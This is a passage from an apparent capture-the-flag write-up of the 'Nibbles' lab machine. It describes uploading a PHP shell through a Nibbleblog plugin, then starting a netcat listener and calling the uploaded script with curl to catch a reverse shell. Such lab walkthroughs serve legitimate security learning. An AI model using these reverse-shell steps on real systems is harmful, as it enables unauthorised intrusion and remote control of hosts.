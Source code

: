 <figure><img src="../../.gitbook/assets/nibbles_manual_4.png" alt=""><figcaption><p>Figure 13: Using the plugin to upload <code>shell.php</code>.</p></figcaption></figure>

We get multiple warning messages but we can safely ignore them and proceed on starting our listener. Finally, by calling our script via `curl` (or visiting the URL in the browser), we should be able to catch the reverse shell (Figure 14).

```bash
# Starting a listener to catch the reverse shell
sudo nc -lvnp 1337
# Sending a GET request pointing to the uploaded script
curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

<figure><img src="../../.gitbook/assets/nibbles_manual_2.png" alt=""><figcaption><p>Figure 14: Starting a listener and calling the uploiaded script.</p></figcaption></figure>

[^1]: Living of The Land
